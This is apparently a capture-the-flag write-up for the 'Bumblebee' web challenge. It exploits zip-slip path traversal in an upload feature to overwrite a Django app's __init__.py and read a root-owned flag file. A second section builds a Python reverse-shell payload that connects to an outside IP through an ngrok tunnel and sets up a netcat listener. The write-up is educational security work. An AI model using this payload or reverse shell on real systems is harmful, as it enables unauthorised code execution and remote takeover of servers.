# Bumblebee (491 Points - Web - 31 Solves)

## GET INFO

This is home page. We can upload the zip file with file extension ".flower". Web server will extract that.

+ 

When we upload another file with file extension ".flower" (not zip file), web server will show debug page.

+ 

+ 

+ 

We can see something interesting here. The BASE_DIR is "/usr/src/app" and the app in "/usr/src/app/bumblebee"

Something else?

+ 

DEBUG is True, so when something change in "/usr/src/app/bumblebee". Web server will reload with new code.

## Idea

The Idea is we upload the zip file, which has ```__init__.py``` into. And when web server extract the zip file. ```__init__.py``` will extract into "/usr/src/app/bumblebee"

## Coding timeee

```py
import zipfile
# with that name file, when it has extracted, __init__.py would be in "usr/src/app/bumblebee"
z_info = zipfile.ZipInfo(r"../../../../../../usr/src/app/bumblebee/__init__.py")
z_file = zipfile.ZipFile("payload.flower", mode="w")

z_file.writestr(z_info, """
import os
dir = os.popen('cat /root/flag.txt').read()
open("/tmp/nectar/flag.txt", "w").write(dir)
""") # This code will copy the file in /root/flag.txt and write in /tmp/nectar
# that code for change mode the __init__.py file
z_info.external_attr = 0777 << 16L
z_file.close()
```

## Exploit

Now, we will upload file payload.flower and wait a few minuter.

+ 

We can see flag in http://challenge.ctf.games:30366/nectar/

+ 

+ 

<!-- ------------------------------------------------------------------ -->
<br>
<br>

# Extension: We can reverse shell this server

## GET PUBLIC IP

- First, we open port 6969 ngrok with protocol tcp

+ 

- Use nslookup to see our ip.

+ 

- Now, MY_IP is ```3.19.130.43``` and MY_PORT is ```11799```

- Use  ```nc -lvnp 6969``` to be able to receive the reverse shell. Remenber, we open port ```6969``` in my computer to receive, not ```11799```.

## Coding time againnn

```py
import zipfile
# with that name file, when it has extracted, __init__.py would be in "usr/src/app/bumblebee"
z_info = zipfile.ZipInfo(r"../../../../../../usr/src/app/bumblebee/__init__.py")
z_file = zipfile.ZipFile("payload.flower", mode="w")
z_file.writestr(z_info, """
import os,pty,socket;s=socket.socket();s.connect(("3.19.130.43",11799));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/sh")
""") # This code will excute reverse shell
# that code for change mode the __init__.py file
z_info.external_attr = 0777 << 16L
z_file.close()
```

## Exploit

+ 

## Find flag

+ 


Ref: https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution

By: nghialuffy